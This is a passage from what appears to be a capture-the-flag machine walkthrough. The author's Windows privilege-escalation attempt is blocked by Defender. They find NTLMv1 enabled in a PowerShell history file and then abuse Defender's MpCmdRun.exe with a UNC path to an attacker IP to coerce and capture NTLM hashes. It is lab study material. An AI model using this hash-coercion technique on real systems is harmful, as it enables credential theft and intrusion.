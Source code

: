 I tried to run `winpeas.exe`, but it seems that AMSI and what not is present on the system:

```
*Evil-WinRM* PS C:\Users\henry.vinson_adm\desktop> .\winpeas.exe
Program 'winpeas.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ .\winpeas.exe
+ ~~~~~~~~~~~~~.
At line:1 char:1
+ .\winpeas.exe
+ ~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

Windows Defender was also active on this machine because my `winpeas.exe` was deleted after.&#x20;

### NTLMv1 --> Steal Hash

I enumerated this machine manually because Defender was present. There was a Powershell History file present:

{% code overflow="wrap" %}
```
*Evil-WinRM* PS C:\Users\henry.vinson_adm\APPDATA\Roaming\Microsoft\Windows\Powershell\PSReadline> cat ConsoleHost_history.txt
$Cred = get-credential administrator
invoke-command -credential $Cred -computername localhost -scriptblock {Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" lmcompatibilitylevel -Type DWORD -Value 2 -Force}
```
{% endcode %}

This command basically states that NTLMv1 is enabled on this machine instead of the more secure NTLMv2. This opens up the potential for NTLM stealing.&#x20;

{% embed url="https://dirteam.com/sander/2022/06/15/howto-detect-ntlmv1-authentication/" %}

We just need to somehow use a service run by the Administrator to steal the hashes. Turns out, Windows Defender here can be used:

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/printers-spooler-service-abuse#defender-mpcmdrun" %}

```
*Evil-WinRM* PS C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0> .\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.14.42\file
Scan starting...
CmdTool: Failed with hr = 0x80508023. Check C:\Users\HENRY~2.VIN\AppData\Local\Temp\MpCmdRun.log for more information
```

<figure><img src="../../../.gitbook/assets/image (1470).png" alt=""><figcaption></figcaption></figure>
